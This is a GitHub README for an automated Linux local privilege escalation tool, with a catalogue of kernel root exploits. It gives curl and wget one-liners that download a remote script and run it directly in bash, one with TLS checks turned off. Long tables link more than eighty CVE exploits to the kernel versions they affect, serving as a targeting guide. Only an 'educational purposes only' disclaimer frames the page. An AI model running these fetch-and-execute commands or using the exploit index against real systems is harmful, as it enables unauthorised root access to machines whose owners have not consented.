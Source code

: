 
<div align="center"><h1>Auto Local Privilege Escalation Exploit</h1></h1></div>
<br>

<div align="center">
  
![licence](https://img.shields.io/badge/LICENE-GPL2.0-ebcb8b?style=flat-square)
![version](https://img.shields.io/badge/VERSION-1.0.2-a3be8c?style=flat-square)
  
 </div>

<br>

<div align="center"><h1>Changelog</h1></div>

<samp>
  
* Fixed dos2unix error

</samp>

<div align="center"><h1>Requirements</h1></div>

<samp>
  
* GIT
  
* WGET
  
* GCC
  
</samp>

<div align="center"><h1>Curl</h1></div>

```
root@127.0.0.1:~# bash -c "$(curl -fsSL https://raw.githubusercontent.com/vlain1337/auto-lpe/refs/heads/main/autolpe.sh -k)"	
```

<div align="center"><h1>Wget</h1></div>

```
root@127.0.0.1:~# bash -c "$(wget --no-verbose -O- https://raw.githubusercontent.com/vlain1337/auto-lpe/refs/heads/main/autolpe.sh)"
```
<samp>
<div align="center"><h1> TOP EXPLOIT</h1></div>

| CVE-ID                                      | LINK REFERENCE      |
| ------------------------------------------- | ------------------------------- |
| [CVE-2021-4034]       | https://github.com/ly4k/PwnKit  |
| [CVE-2022-2588]       | https://github.com/Markakd/CVE-2022-2588/ |
| [CVE-2021-3493]       | https://github.com/briskets/CVE-2021-3493                  |
| [CVE-2023-2640] | https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629                  |
| [CVE-2022-0847] | https://github.com/n3rada/DirtyPipe             |

<div align="center"><h1> EXPLOIT LIST</h1></div>

| CVE-ID                                                    | Possible affected versions                                                            |
| --------------------------------------------------------- | ------------------------------------------------------------------------------------- |
| [CVE-2022-34918](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-34918)                   | Linux kernel < 5.18.11                                                                |
| [CVE-2022-32250](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-32250)                   | Linux kernel < 5.18.1                                                                 |
| [CVE-2022-27666](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-27666)                   | Linux kernel < 5.17-rc8                                                               |
| [CVE-2022-25636](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-25636)                   | Linux kernel 5.4-5.6.10                                                               |
| [CVE-2022-23222](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-23222)                   | Linux kernel 5.8-5.16                                                                 |
| [CVE-2022-2639](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-2639)                     | Linux kernel 3.13-5.18                                                                |
| [CVE-2022-2602](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-2602)                     | Linux kernel < 6.1-rc1                                                                |
| [CVE-2022-2588](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-2588)                     | Linux kernel < 5.19                                                                   |
| [CVE-2022-2586](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-2586)                     | Linux kernel > 3.16-rc1                                                               |
| [CVE-2022-2585](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-2585)                     | Linux kernel > 5.7-rc1                                                                |
| [CVE-2022-1015](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-1015)                     | Linux kernel 5.12-5.17                                                                |
| [CVE-2022-0995](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-0995)                     | Linux kernel 5.8-5.17-rc7                                                             |
| [CVE-2022-0847 (DirtyPipe)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-0847)         | Linux kernel 5.8-5.16.11                                                              |
| [CVE-2022-0185](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2022/CVE-2022-0185)                     | Linux kernel 5.1-rc1-5.17-rc1                                                         |
| [CVE-2021-43267](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2021/CVE-2021-43267)                   | Linux kernel 5.10-rc1-5.15                                                            |
| [CVE-2021-42008](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2021/CVE-2021-42008)                   | Linux kernel < 5.13.13                                                                |
| [CVE-2021-41073](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2021/CVE-2021-41073)                   | Linux kernel 5.10-5.14.6                                                              |
| [CVE-2021-31440](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2021/CVE-2021-31440)                   | Linux kernel 5.7-5.11.15                                                              |
| [CVE-2021-27365](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2021/CVE-2021-27365)                   | Linux kernel <= 5.11.3                                                                |
| [CVE-2021-22555](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2021/CVE-2021-22555)                   | Linux kernel 2.6.19-5.12-rc6                                                          |
| [CVE-2021-4154](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2021/CVE-2021-4154)                     | Linux kernel < 5.3.18                                                                 |
| [CVE-2021-3493](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2021/CVE-2021-3493)                     | Ubuntu 20.10、Ubuntu 20.04 LTS、Ubuntu 18.04 LTS、Ubuntu 16.04 LTS、Ubuntu 14.04 ESM  |
| [CVE-2021-3490](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2021/CVE-2021-3490)                     | Linux kernel < 5.13-rc4                                                               |
| [CVE-2020-27194](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2020/CVE-2020-27194)                   | Linux kernel 5.7-5.8.14                                                               |
| [CVE-2020-8835](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2020/CVE-2020-8835)                     | Linux kernel 5.4.7-5.4.29, 5.5-5.5.14, 5.6                                            |
| [CVE-2019-15666](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2019/CVE-2019-15666)                   | Linux kernel < 5.0.19                                                                 |
| [CVE-2019-13272](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2019/CVE-2019-13272)                   | Linux kernel 4.10-5.1.17                                                              |
| [CVE-2018-18955](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2018/CVE-2018-18955)                   | Linux kernel 4.15-4.19.2                                                              |
| [CVE-2018-17182](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2018/CVE-2018-17182)                   | Linux kernel 3.5-4.18.8                                                               |
| [CVE-2018-5333](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2018/CVE-2018-5333)                     | Linux kernel 4.4-4.14.13                                                              |
| [CVE-2017-1000253](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2017/CVE-2017-1000253)               | Linux kernel 3.2-4.13                                                                 |
| [CVE-2017-16995](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2017/CVE-2017-16995)                   | Linux kernel 4.4-4.14.8                                                               |
| [CVE-2017-16939](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2017/CVE-2017-16939)                   | Linux kernel < 4.13.11                                                                |
| [CVE-2017-11176](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2017/CVE-2017-11176)                   | Linux kernel <= 4.11.9                                                                |
| [CVE-2017-8890](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2017/CVE-2017-8890)                     | Linux kernel 2.5.69-4.11                                                              |
| [CVE-2017-7308](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2017/CVE-2017-7308)                     | Linux kernel 3.2-4.10.6                                                               |
| [CVE-2017-6074](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2017/CVE-2017-6074)                     | Linux kernel 2.6.18-4.9.11                                                            |
| [CVE-2017-5123](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2017/CVE-2017-5123)                     | Linux kernel 4.12-4.13                                                                |
| [CVE-2016-9793](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2016/CVE-2016-9793)                     | Linux kernel 3.11-4.8.14                                                              |
| [CVE-2016-8655](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2016/CVE-2016-8655)                     | Linux kernel 4.4.0-4.9                                                                |
| [CVE-2016-5195 (DirtyCow)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2016/CVE-2016-5195)          | Linux kernel 2.6.22-4.8.3                                                             |
| [CVE-2016-4997](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2016/CVE-2016-4997)                     | Linux kernel <= 4.6.3                                                                 |
| [CVE-2016-4557](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2016/CVE-2016-4557)                     | Linux kernel 4.4-4.5.5                                                                |
| [CVE-2016-2384](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2016/CVE-2016-2384)                     | Linux kernel 3.0.0-4.4.8                                                              |
| [CVE-2016-0728 (pp_key)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2016/CVE-2016-0728)            | Linux kernel 3.8.0-3.8.9, 3.9-3.13, 3.4.0-3.13.0, 3.8.5-3.8.9, 3.10.6, 3.9.6, 3.13.1  |
| [CVE-2015-8660](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2015/CVE-2015-8660)                     | Linux kernel 3.0.0-4.3.3                                                              |
| [CVE-2015-8550](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2015/CVE-2015-8550)                     | Linux kernel 4.19.65                                                                  |
| [CVE-2015-1328 (ofs)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2015/CVE-2015-1328)               | Linux kernel 3.13, 3.16.0, 3.19.0                                                     |
| [CVE-2014-9322](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2014/CVE-2014-9322)                     | Linux kernel 3.0.1-3.17.5                                                             |
| [CVE-2014-4699](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2014/CVE-2014-4699)                     | Linux kernel 3.0.1-3.15.4                                                             |
| [CVE-2014-4014](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2014/CVE-2014-4014)                     | Linux kernel 3.0.1-3.14.8                                                             |
| [CVE-2014-3153](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2014/CVE-2014-3153)                     | Linux kernel 3.3.2-3.3.5, 3.0.1-3.0.5, 2.6.32-2.6.39, 2.6.4-2.6.9,3.2.2, 3.0.18       |
| [CVE-2014-0196 (rawmodePTY)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2014/CVE-2014-0196)        | Linux kernel 2.6.31-2.6.39, 3.14, 3.15                                                |
| [CVE-2014-0038 (timeoutpwn)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2014/CVE-2014-0038)        | Linux kernel 3.4-3.13, 3.4.0-3.8.0, 3.8.5, 3.8.6, 3.8.9, 3.9.0, 3.9.6, 3.10.0-3.13.0  |
| [CVE-2013-2094 (perf_swevent)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2013/CVE-2013-2094)      | Linux kernel 3.0.0-3.0.6, 3.1.0, 3.2, 3.3, 3.4.0-3.4.9, 3.5, 3.6, 3.7, 3.8.0-3.8.9    |
| [CVE-2013-1959](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2013/CVE-2013-1959)                     | Linux kernel 3.0.1-3.8.9                                                              |
| [CVE-2013-1858 (clown-newuser)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2013/CVE-2013-1858)     | Linux kernel 3.8-3.8.3                                                                |
| [CVE-2013-1763](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2013/CVE-2013-1763)                     | Linux kernel 3.3-3.8                                                                  |
| [CVE-2013-0268 (msr)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2013/CVE-2013-0268)               | Linux kernel 2.6.18-2.6.39, 3.0.0-3.0.6, 3.1.0, 3.2, 3.3, 3.4, 3.5, 3.6, 3.7.0, 3.7.6 |
| [CVE-2012-0056 (memodipper)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2012/CVE-2012-0056)        | Linux kernel 2.6.39, 3.0.0, 3.0.1, 3.0.2, 3.0.3, 3.0.4, 3.0.5, 3.0.6, 3.1.0           |
| [CVE-2010-4347](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2010/CVE-2010-4347)                     | Linux kernel 2.6.0-2.6.36                                                             |
| [CVE-2010-4258 (full-nelson)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2010/CVE-2010-4258)       | Linux kernel 2.6.31-2.6.37                                                            |
| [CVE-2010-4073 (half_nelson)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2010/CVE-2010-4073)       | Linux kernel 2.6.0-2.6.36                                                             |
| [CVE-2010-3904 (rds)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2010/CVE-2010-3904)               | Linux kernel 2.6.30-2.6.36                                                            |
| [CVE-2010-3301 (ptrace_kmod2)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2010/CVE-2010-3301)      | Linux kernel 2.6.26-2.6.34                                                            |
| [CVE-2010-3081 (video4linux)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2010/CVE-2010-3081)       | Linux kernel 2.6.0-2.6.33                                                             |
| [CVE-2010-2959 (can_bcm)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2010/CVE-2010-2959)           | Linux kernel 2.6.18-2.6.36                                                            |
| [CVE-2010-1146 (reiserfs)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2010/CVE-2010-1146)          | Linux kernel 2.6.18-2.6.34                                                            |
| [CVE-2009-3547 (pipe.c_32bit)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2009/CVE-2009-3547)      | Linux kernel 2.4.4-2.4.37, 2.6.15-2.6.31                                              |
| [CVE-2009-2698 (udp_sendmsg_32bit)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2009/CVE-2009-2698) | Linux kernel 2.6.1-2.6.19                                                             |
| [CVE-2009-2692 (sock_sendpage)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2009/CVE-2009-2692)     | Linux kernel 2.4.4-2.4.37，2.6.0-2.6.30                                               |
| [CVE-2009-1337 (exit_notify)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2009/CVE-2009-1337)       | Linux kernel 2.6.25-2.6.29                                                            |
| [CVE-2009-1185 (udev) ](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2009/CVE-2009-1185)             | Linux kernel 2.6.25-2.6.29                                                            |
| [CVE-2008-4210 (ftrex)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2008/CVE-2008-4210)             | Linux kernel 2.6.11-2.6.22                                                            |
| [CVE-2008-0900](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2008/CVE-2008-0900)                     | Linux kernel 2.6.17-2.6.24.1                                                          |
| [CVE-2008-0600](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2008/CVE-2008-0600)                     | Linux kernel 2.6.23, 2.6.24                                                           |
| [CVE-2006-3626 (h00lyshit)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2006/CVE-2006-3626)         | Linux kernel 2.6.8, 2.6.10, 2.6.11, 2.6.12, 2.6.13, 2.6.14, 2.6.15, 2.6.16            |
| [CVE-2006-2451 (raptor_prctl)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2006/CVE-2006-2451)      | Linux kernel 2.6.13-2.6.17                                                            |
| [CVE-2005-1263](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2005/CVE-2005-1263)                     | Linux kernel 2.x.x-2.2.27-rc2, 2.4.x-2.4.31-pre1, 2.6.x-2.6.12-rc4                    |
| [CVE-2005-0736 (krad3)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2005/CVE-2005-0736)             | Linux kernel 2.6.5, 2.6.7, 2.6.8, 2.6.9, 2.6.10, 2.6.11                               |
| [CVE-2004-1235 (elflbl)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2004/CVE-2004-1235)            | Linux kernel 2.4.29                                                                   |
| [CVE-2004-0077 (mremap_pte) ](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2004/CVE-2004-0077)       | Linux kernel 2.4.20, 2.2.24, 2.4.25, 2.4.26, 2.4.27                                   |
| [CVE-N/A (caps_to_root)](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/blob/main/2004/caps_to_root)             | Linux kernel 2.6.34, 2.6.35, 2.6.36                                                   |

</samp>

## Disclaimer

This repository is for educationnal purposes only.
Malicious usage of this repository are not the author responsibility.
